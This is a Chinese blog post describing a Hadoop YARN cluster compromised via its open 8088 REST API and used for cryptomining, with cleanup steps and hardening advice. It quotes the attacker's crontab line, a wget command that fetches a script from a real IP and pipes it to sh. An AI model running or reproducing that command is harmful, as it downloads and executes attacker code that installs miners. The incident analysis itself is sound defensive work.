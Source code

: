 ```yaml
---
layout: post
categories: hadoop yarn hack
title: yarn运莫名其妙的job 导致集群变慢 一直在跑一个用户为dr.who的application
date: 2018-06-21 17:48:51 +0800
description: hadoop mapreduce 任务 莫名其妙的变多了 yarn被黑问题。
keywords: hadoop
---
```



简单介绍一下过程，现在有些人通过 hadoop 开放的restApi进行挖矿，8088 以及 8090 端口。



### 排问题
  * 1. 集群检查

    今天检查Hadoop 服务器发现Yarn上面的job莫名其妙的变多了，而且一直再跑。
    ![](/static/demos/7422da30-8014-41f6-a922-55f86a3ce252.png)
    经过排查在`/tmp/ /var/tmp` 下面发现了 Java 还有tmp.txt
    内容如下：
    ![](/static/demos/63c45ec8-bcbd-4fbd-98bb-ee624eb4ea70.png)

    服务器地址:`transfer.sh`

  * 2. 检查 `crontab -l ` 发现了一个莫名其妙的 job
    ```bash
    * * * * * wget -q -O - http://185.222.210.59/cr.sh | sh > /dev/null 2>&1
    ```


### 解决办法

   * 1，通过查看占用cpu高得进程，kill掉此进程

   * 2，检查/tmp和/var/tmp目录，删除java、ppc、w.conf等异常文件

   * 3 ，通过crontab -l 查看有一个* * * * * wget -q -O - http://185.222.210.59/cr.sh | sh > /dev/null 2>&1任务，删除此任务

   * 4，排查YARN日志，确认异常的application，删除处理

   * 5 再通过top验证看是否还有高cpu进程，如果有，kill掉，没有的话应该正常了。

   * 6 注意：YARN提供有默认开放在8088和8090的REST API（默认前者）允许用户直接通过API进行相关的应用创建、任务提交执行等操作，如果配置不当，REST API将会开放在公网导致未授权访问的问题，那么任何黑客则就均可利用其进行远程命令执行，从而进行挖矿等行为，黑客直接利用开放在8088的REST API提交执行命令，来实现在服务器内下载执行.sh脚本，从而再进一步下载启动挖矿程序达到挖矿的目的，因此注意并启用Kerberos认证功能，禁止匿名访问修改8088端口





#### 感谢老铁登科

转载请注明出处，本文采用 [CC4.0](http://creativecommons.org/licenses/by-nc-nd/4.0/) 协议授权
